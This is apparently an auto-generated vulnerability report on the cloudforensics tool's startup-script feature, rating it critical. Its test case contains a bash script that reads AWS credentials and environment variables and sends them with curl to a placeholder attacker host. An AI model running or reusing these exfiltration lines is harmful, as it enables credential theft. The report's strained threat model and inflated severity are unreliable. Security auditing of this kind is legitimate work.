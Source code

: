 ### Vulnerability List:

- Vulnerability Name: Credential Exposure via Startup Scripts
- Description:
    - An attacker socially engineers a user into using compromised cloud provider credentials with the `cloudforensics` tool.
    - The user attempts to start an analysis VM using the tool with the compromised credentials.
    - The tool allows users to specify a `STARTUP_SCRIPT` environment variable or `--launch_script` argument.
    - If the user uses a startup script, the content of this script is shipped to the newly created analysis VM and executed during the first boot.
    - An attacker can craft a malicious startup script that exfiltrates the cloud provider credentials stored in the environment variables of the analysis VM to an attacker-controlled location.
    - The attacker gains unauthorized access to the cloud environments that the user is attempting to investigate by using the exfiltrated credentials.
- Impact:
    - Unauthorized access to cloud environments.
    - An attacker can gain full control over the cloud resources the compromised credentials have access to, potentially leading to data breaches, resource manipulation, and further compromise of the cloud infrastructure.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None
- Missing Mitigations:
    - Secure handling of startup scripts:
        - Avoid passing sensitive credentials as environment variables to startup scripts.
        - Implement secure way to pass configuration to startup scripts, e.g., using GCP Secret Manager or AWS Secrets Manager.
        - Warn users about the security risks of using custom startup scripts and recommend against including sensitive information in them in the documentation and CLI help messages.
    - Input validation and sanitization for startup scripts:
        - Although difficult, attempt to sanitize or validate startup scripts to prevent malicious code execution.
        - Implement a sandbox environment for startup script execution to limit potential damage.
    - Principle of least privilege for analysis VMs:
        - Ensure that analysis VMs are created with the minimum necessary privileges to perform forensic analysis, limiting the impact of compromised credentials.
- Preconditions:
    - An attacker socially engineers a user into using compromised cloud provider credentials with the `cloudforensics` tool.
    - The user uses a custom startup script (either via `STARTUP_SCRIPT` environment variable or `--launch_script` argument) when starting an analysis VM.
- Source Code Analysis:
    - File: `/code/docs/usermanual/index.md`
        - The documentation highlights the `STARTUP_SCRIPT` pro tip for GCP, AWS, and Azure, suggesting its usage for preprocessing.
        - It states: "you can export an environment variable 'STARTUP_SCRIPT' that points to a custom bash script. This script will be shipped to the instance being created and executed during the first boot. You can do any kind of pre-processing you want in this script."
        - This documentation encourages the use of custom startup scripts without explicitly warning about the security risks of executing untrusted code or handling sensitive data within these scripts.
    - File: `/code/tools/aws_cli.py`, `/code/tools/az_cli.py`, `/code/tools/gcp_cli.py`
        - The CLI tools for each cloud provider define the `--launch_script` argument, which is passed down to the `forensics.StartAnalysisVm` functions.
    - File: `/code/libcloudforensics/providers/aws/forensics.py`, `/code/libcloudforensics/providers/azure/forensics.py`, `/code/libcloudforensics/providers/gcp/forensics.py`
        - The `StartAnalysisVm` functions in each provider's forensics module accept the `userdata_file` argument, which is used to read the startup script content using `utils.ReadStartupScript` and pass it to the cloud provider's VM creation API.
    - File: `/code/libcloudforensics/scripts/utils.py`
        - The `ReadStartupScript` function reads the content of the startup script file specified by the `filename` argument or the `STARTUP_SCRIPT` environment variable.
    - File: `/code/libcloudforensics/scripts/forensics_packages_startup_aws.sh`, `/code/libcloudforensics/scripts/forensics_packages_startup.sh`
        - Example startup scripts are provided to install forensic packages, demonstrating the intended use of startup scripts without security considerations for credential exposure.
    - There is no input validation or sanitization implemented for the startup scripts.
    - The code does not prevent users from creating and using startup scripts that could potentially exfiltrate credentials or perform other malicious actions.
- Security Test Case:
    1. **Setup:**
        - Attacker sets up a simple HTTP server to receive exfiltrated credentials (e.g., using `netcat` or `python -m http.server`).
        - Attacker creates a malicious startup script (`malicious_startup.sh`) that does the following:
            ```bash
            #!/bin/bash
            # Malicious Startup Script to Exfiltrate AWS Credentials

            # Exfiltrate AWS credentials by sending them to the attacker's HTTP server
            CREDENTIALS=$(cat /root/.aws/credentials)
            curl "http://attacker-ip:attacker-port/?credentials=$CREDENTIALS"

            # Optional: To also demonstrate exfiltration of environment variables
            # ENV_VARS=$(env)
            # curl "http://attacker-ip:attacker-port/?env_vars=$ENV_VARS"

            echo "Malicious script executed."
            ```
            - Replace `attacker-ip:attacker-port` with the attacker's HTTP server address.
        - Saves the malicious script as `malicious_startup.sh`.
        - Attacker obtains compromised AWS credentials (or Azure/GCP credentials). For AWS, configure a profile named `compromised_profile` in `~/.aws/credentials` with these compromised credentials.
    2. **Execution:**
        - Attacker socially engineers a user to use the `cloudforensics` tool with the `compromised_profile` and the malicious startup script.
        - The user, intending to investigate their AWS environment, executes the following command:
            ```bash
            export STARTUP_SCRIPT=$(pwd)/malicious_startup.sh
            cloudforensics aws us-east-1 listinstances --profile compromised_profile
            ```
            - Or, to explicitly use the `--launch_script` argument:
            ```bash
            cloudforensics aws us-east-1 startvm analysis-vm --profile compromised_profile --launch_script malicious_startup.sh
            ```
        - The `cloudforensics` tool attempts to list instances (or starts an analysis VM), utilizing the compromised credentials.
        - The malicious startup script executes on the analysis VM during its boot process.
        - The malicious script exfiltrates the AWS credentials to the attacker's HTTP server.
    3. **Verification:**
        - Attacker checks their HTTP server logs and verifies that the AWS credentials from the analysis VM are successfully exfiltrated. The server logs should contain entries showing the `curl` requests with the credentials in the query parameters.
        - Attacker uses the exfiltrated credentials (e.g., by configuring the AWS CLI with the exfiltrated access key and secret key) to access and control the AWS environment associated with the `compromised_profile`.